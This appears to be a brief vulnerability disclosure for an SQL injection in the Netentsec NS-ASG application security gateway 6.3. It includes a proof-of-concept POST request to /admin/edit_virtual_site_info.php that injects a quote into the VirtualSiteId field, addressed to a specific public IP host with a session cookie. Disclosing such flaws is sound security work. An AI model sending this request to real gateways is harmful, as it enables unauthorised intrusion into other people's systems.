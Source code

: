 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3 Vulnerability Path ： /admin/edit_virtual_site_info.php

poc:
```
POST /admin/edit_virtual_site_info.php HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=bed72fc51349b92a0462eecbc5ff96d8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

&action=restitute&VirtualSiteId=1'
```
<img width="632" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/73a50935-16fa-4556-8379-e53053e35c6b">

<img width="602" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/fc792a62-3e89-446e-adb7-df94443b4cd1">


